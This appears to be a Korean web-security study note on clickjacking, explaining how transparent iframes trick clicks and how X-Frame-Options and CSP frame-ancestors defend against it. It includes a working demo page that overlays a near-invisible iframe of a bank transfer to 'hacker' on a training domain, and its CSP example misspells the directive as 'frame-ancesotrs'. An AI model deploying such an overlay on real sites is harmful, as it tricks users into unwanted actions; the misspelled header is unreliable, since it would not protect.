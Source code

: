 # Click Hijacking

## 목차

1. [개요](click_hijacking.md#개요)
2. [원리](click_hijacking.md#원리)
3. [예문](click_hijacking.md#예문)
4. [해결방안](click_hijacking.md#해결방안)

## 개요

`Click Jacking`\(클릭 재킹\)은 웹 브라우저 화면에 출력되는 내용에 HTML, CSS, JS 등과 같이 화면 출력에 영향을 미치는 요소들을 이용하여 사용자의 눈을 속여 사용자의 클릭을 유도하는 공격방법이다.

## 원리

아래와 같이 외부 페이지 리소스를 불러올 수 있는 태그 엘리먼트를 사용합니다.

```markup
    <frame>
    <iframe>
    <object>
    <embed>
    <applet>
```

사용자의 클릭을 유도하는 페이지를 구성 후, 그 페이지 위에 iframe등의 태그로 누르게 할 페이지를 로드합니다. 그리고 CSS `opacity`\(투명도 조절\)과 같이 사용자의 눈에 보이지 않도록 숨겨 놓는 방법을 이용하여 공격을 할 수 있습니다.

> 사용자가 보는 페이지와 실제로 누르는 곳에 차이가 있는 이유는 **iframe**태그가 웹 브라우저 상에서는 더 위에 위치해 있기에 클릭 시 동작하는 원리이다.

## 예문

```markup
    <!doctype html>
    <html>
        <head>
            <meta charset='utf-8'>
        </head>
        <body>
            <div id="wrapper">
                <div id="my-div">
                    <button id='my-button'>광고 끄기</button>
                    <img src="theori_tv.jpg" id='my-img'>
                </div>
                <iframe src="https://bank.dreamhack.io/send_money_preview?to=hacker&amount=10000" id="my-frame"></iframe>
            </div>
            <style>
            button { width: 100px; height: 30px; }
            * { margin: 0; padding: 0; }
            #wrapper {
                position: absolute;
                top: calc(50% - 250px);
                left: calc(50% - 250px);
            }
            #my-div {
                position: absolute;
                z-index: -9;
                top: 118px;
                left: 10px;
            }
            #my-img {
                border: 1px solid blue;
                width: 600px;
                position: absolute;
                left: 0;
                z-index: -10;
            }
            #my-button {
                width: 100px;
                height: 100px;
            }
            #my-frame {
                border: 1px solid red;
                width: 300px;
                height: 300px;
                opacity: 0.1;
            }
            </style>
        </body>
    </html>
```

## 해결방안

`Click Hijacking`의 해결방안은 아래의 두가지가 있습니다.

1. [**X-Frame-Options**](click_hijacking.md#X-Frame-Options)
2. [**frame-ancestors**](click_hijacking.md#frame-ancestors)

이 두 설정 모두 부모 페이지의 URL을 제한하는 방식으로 클릭재킹을 방어합니다.

### X-Frame-Options

HTTP 응답 헤더를 통해 `DENY`와 `SAMEORIGIN` 두개의 값을 설정 가능합니다.

| 값 | 내용 |
| :--- | :--- |
| DENY | 부모 페이지 URL 상관없이 모두 차단 |
| SAMEORIGIN | 부모 페이지 URL이 Same Origin이라면 허용 |

**예시**\(모두 차단하는 방법\)

```text
X-Frame-Options: DENY
```

### frame-ancestors

**CSP**\(Content Security Policy\)의 `frame-ancesotrs` 지시어를 통해 값을 설정할 수 있습니다. `frame-ancestors` 지시어는 CSP를 HTTP 응답 헤더를 통해 설정해야하며 \태그로는 설정할 수 없습니다.

| 값 | 내용 |
| :--- | :--- |
| 'none' | X-Frame-Options DENY와 동일 |
| 'self' | X-Frame-Options SAMEORIGIN과 동일 |
| http://, https:// | scheme가 같으면 모두 허용 |
| \*.dreamhack.io, dreamhack.io, [https://dreamhack.io](https://dreamhack.io) | host나 scheme+host가 같으면 모두 허용, 와일드카드\(\*\)를 사용할 수 있음 |

**예시** \([http://dreamhack.io와](http://dreamhack.io와) google.com의 모든 서브 도메인 그리고 [https://scheme를](https://scheme를) 모두 허용\)

```text
Content-Security-Policy:
frame-ancesotrs http://dreamhack.io
*.google.com
https://
```

대부분의 브라우저에서 호환성과 보안문제로 모든 parent URL들을 검사하지만 `X-Frame-Options`보다는 최신 기술인 CSP `frame-ancestors`를 사용하는것을 권고한다.

[**Home**](https://github.com/sunrabbit123/Learn_Web_Security)

